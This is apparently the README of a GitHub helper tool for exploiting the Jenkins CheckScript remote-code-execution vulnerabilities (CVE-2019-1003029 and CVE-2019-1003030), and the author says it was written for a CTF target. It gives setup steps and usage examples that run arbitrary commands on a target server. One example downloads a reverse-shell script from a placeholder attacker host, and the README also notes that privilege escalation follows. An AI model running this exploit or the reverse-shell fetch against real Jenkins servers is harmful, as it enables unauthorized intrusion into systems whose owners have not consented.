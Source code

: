 Jenkins Checkscript RCE Helper
==============================


## Purpose

This little helper script was written because I got tired of copy/pasting commands into really long curl statements endlessly during my initial analysis of a CTF Jenkins target.

The official vulnerabilities for this exploitation:

    * CheckScript RCE in Jenkins - CVE-2019-1003029, CVE-2019-1003030

Features:

    * Automatically retrieve a current Jenkins-Crumb and use it in command execution requests

    * Run commands with debugging functionality already enabled. In my case, there was no output returned without it.

    * No more copy/pasting into curl!


Keep in mind, this only gets you foothold on the box as the user running the Jenkins service, it doesn't guarantee root. So, you'll still need to privesc once you are on.


## Setup

```bash
git clone https://github.com/Cashiuus/jenkins-checkscript-rce
cd jenkins-checkscript-rce
pip install -r requirements.txt
```


## Usage



```bash
./jenkins-checkscript-poc.py <URL> -c <arbitrary_command>

./jenkins-checkscript-poc.py "http://target:8080" -c id
./jenkins-checkscript-poc.py "http://target:8080" -c pwd
./jenkins-checkscript-poc.py "http://target:8080" -c wget http://attacker/revshell.sh -O revshell.sh
./jenkins-checkscript-poc.py "http://target:8080" -c ls -al /home/

```


## Credit

    * Much thanks for the incredible collection of background research: https://github.com/gquere/pwn_jenkins

    * Jenkins Advisory: https://www.jenkins.io/security/advisory/2019-03-06/
